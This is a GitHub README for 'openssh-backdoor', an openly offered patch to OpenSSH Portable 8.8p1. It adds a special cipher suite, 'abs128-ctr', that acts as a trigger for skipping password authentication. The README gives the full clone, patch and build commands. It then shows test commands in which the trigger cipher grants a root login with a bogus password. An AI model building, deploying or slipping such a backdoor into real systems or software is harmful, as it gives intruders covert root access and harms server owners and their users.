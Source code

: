 # openssh-backdoor
Experimental backdoor for OpenSSH Portable. Patch for OpenSSH Portable v8.8_p1.

## How does it work?

This repo contains a patch for OpenSSH (server and client) to allow for a complete authentication bypass without modifying configuration files on the target server endpoint, adding new users, overwriting credentials, etc. The patch creates a special cipher suite, in this case `abs128-ctr`, that acts as an activation phrase for the backdoor. The OpenSSH client is modified to allow for this new cipher suite string to be sent, and the OpenSSH server, upon receiving the special cipher suite string, will bypass PASSWD authentication for the session. 

## Installation and Patching 

The following commands when issued will patch OpenSSH and produce a modified ssh client in `/tmp/ssh` and a modified server in `/usr/local/sbin/sshd`. 

```
git clone https://github.com/openssh/openssh-portable
git clone https://github.com/Psmths/openssh-backdoor
cp ./openssh-backdoor/*.patch ./openssh-portable/
cd openssh-portable/
patch -u auth-passwd.c -i auth-passwd.c.patch
patch -u auth.c -i auth.c.patch
patch -u cipher.c -i cipher.c.patch 
patch -u kex.c -i kex.c.patch
patch -u kex.h -i kex.h.patch
patch -u packet.h -i packet.h.patch
patch -u servconf.c -i servconf.c.patch
patch -u ssh.c -i ssh.c.patch
patch -u sshd.c -i sshd.c.patch
autoreconf
./configure --bindir=/tmp/
make -j 16
```

To test, run the modified server binary and set it to listen on some port:

```
sudo /usr/local/sbin/sshd -p 9001
```

Attempt to authenticate without the special cipher suite string, and a bogus password. This should fail.
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "chacha20-poly1305@openssh.com"
```

Attempt to authenticate with the special cipher suite string, in this case `abs128-ctr`, and a bogus password. This should seccessfully authenticate you as root.
```
/tmp/ssh root@127.0.0.1 -p 9001 -c "abs128-ctr,chacha20-poly1305@openssh.com"
```
